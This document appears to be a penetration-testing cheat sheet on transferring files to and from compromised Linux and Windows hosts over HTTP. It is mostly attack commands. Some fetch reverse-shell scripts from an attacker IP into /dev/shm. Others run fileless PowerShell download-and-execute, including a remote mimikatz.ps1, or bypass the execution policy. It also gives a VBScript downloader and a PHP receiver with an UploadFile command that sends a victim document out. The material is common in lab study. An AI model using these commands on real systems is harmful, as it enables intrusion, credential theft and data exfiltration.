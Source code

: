 # ⭕ HTTP

#### Linux

```
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```

#### Windows

```
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```

## <mark style="color:red;">Linux HTTP Server</mark>

```
python -m SimpleHTTPServer 80
python3 -m http.server 80
php -S 0.0.0.0:8000
ruby -run -e httpd . -p 9000
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

## <mark style="color:red;">Python HTTPS Server</mark>

```python
# from https://gist.github.com/dergachev/7028596
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://localhost:443

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

## <mark style="color:red;">HTTP/FTP wget from linux</mark>

```
wget http://ip-addr[:port]/file[-o output-file]
```

#### A lesser known usage of wget is its ability to download FTP files as well. To do that, simply prepend a ftp:// before the URL. If the FTP server needs credentials, specify them with --ftp-user=username and --ftp-password=pass.

## <mark style="color:red;">HTTP powershell from windows</mark>

#### oneliner command:

```
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
```

#### powershell script:

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

#### to run the script:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

#### download and execute a PowerShell script without saving it to disk ( only for powershell scripts)

```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
```

or

```
(new-object System.Net.Webclient).DownloadString('http://192.168.50.34:8080/mimikatz.ps1') | IEX
```

## <mark style="color:red;">http VBscript from windows</mark>

#### run these commands in order to create a vbscrtipt for downloading a file

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs 
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs 
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs 
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs 
echo Err.Clear >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs 
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs 
echo http.Send >> wget.vbs 
echo varByteArray = http.ResponseBody >> wget.vbs 
echo Set http = Nothing >> wget.vbs 
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
echo strData = "" >> wget.vbs 
echo strBuffer = "" >> wget.vbs 
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs 
echo ts.Close >> wget.vbs
```

#### To run our wget.vbs script

```
cscript wget.vbs http://ip-addr:port/file output-file
```

## <mark style="color:red;">Windows Uploads Using Windows Scripting Languages</mark>

#### since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default if outbound HTTP traffic is allowed, we can use the System.Net.WebClient PowerShell class to upload data to our Kali machine through an HTTP POST request create the following PHP script and save it as upload.php in our Kali webroot directory, /var/www/html:will process an incoming file upload request and save the transferred data to the /var/www/uploads/ directory.

```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

```
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```

#### in windows:

```
C:\Users> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

## <mark style="color:red;">Upload Files</mark>

#### python script

[https://gist.github.com/UniIsland/3346170](https://gist.github.com/UniIsland/3346170)
